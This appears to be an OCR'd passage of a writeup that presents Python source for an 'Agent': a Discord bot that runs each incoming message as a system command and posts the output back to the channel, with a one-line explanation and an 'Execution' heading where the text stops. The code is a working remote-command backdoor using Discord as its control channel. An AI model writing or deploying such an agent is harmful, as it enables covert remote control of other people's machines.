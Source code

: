 ### Agent
```python
from discord.ext import commands
from discord.utils import get
from discord.ext.commands import Bot
import discord
from discord.utils import get
import subprocess
import time
DISCORD_TOKEN = "REDACTED_TOKEN"
def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output
intents = discord.Intents.all()
intents.members = True
intents.reactions = True
intents.guilds = True
bot = Bot("!", intents=intents)
@bot.command()
async def IssueCmd(ctx, arg):
    await ctx.send(arg)
@bot.event
async def on_message(message):   
    await message.channel.send(Exec(message.content).decode("utf-8"))
if __name__ == "__main__":
    bot.run(DISCORD_TOKEN)
```
It has an event handler for all incoming messages and upon receiving one, it executes the command and sends back the result to the server.

### Execution